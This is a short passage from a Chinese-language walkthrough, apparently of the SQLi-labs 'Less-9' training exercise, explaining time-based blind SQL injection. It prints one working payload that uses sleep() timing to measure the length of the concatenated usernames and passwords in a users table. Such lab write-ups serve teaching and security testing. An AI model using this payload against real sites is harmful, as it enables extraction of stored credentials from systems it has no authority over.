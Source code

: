 ![Less-9_11](./img/Less-9_11.png)



+ 注入如下语句逐一判断字段内容长度

  ~~~ shell
  ?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
  ~~~

  由于页面有延迟，说明字段内容长度大于109

  ![Less-9_12](./img/Less-9_12.png)
